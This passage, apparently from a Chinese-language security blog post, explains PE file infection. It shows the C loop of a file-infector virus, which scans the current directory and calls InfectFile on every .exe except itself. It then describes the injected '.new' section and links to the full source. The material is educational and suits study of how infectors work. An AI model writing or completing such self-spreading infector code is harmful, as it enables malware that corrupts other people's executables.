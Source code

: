 ```C
	GetCurrentDirectory(MAX_PATH,szCurrentPath);
	//获取当前模块路径
	GetModuleFileName(NULL,szCurrentModule,MAX_PATH);
	lstrcpy(szFilePath,szCurrentPath);
	lstrcat(szFilePath,L"\\*.exe");

	//遍历当前目录并感染除自身外的所有.exe文件
	hListFile = FindFirstFile(szFilePath,&FileInfo);
	if(hListFile == INVALID_HANDLE_VALUE){
		return 0;
	}
	else{
		do{
			if(!_tcsstr(szCurrentModule,FileInfo.cFileName)){
				//感染目标文件
				if (!InfectFile(FileInfo.cFileName)){
					return 0;
				}
			}
		}while(FindNextFile(hListFile,&FileInfo));
	}
}
```
运行被感染后的文件，会弹出以下消息框，使用 PEview 可以看到添加了一个名为 .new 的节区。
![](https://raw.githubusercontent.com/0x4C43/BlogImages/master/1586020547_33815689.jpg)    
完整代码可以在 [此链接](https://github.com/0x4C43/InflectPE) 下载。

____
References:   
[1] [PE File Infection](https://0x00sec.org/t/pe-file-infection/401)    
[2] 《小小黑客之路》    
[3] 《黑客编辑揭秘与防范》    
[4] 《逆向工程核心原理》
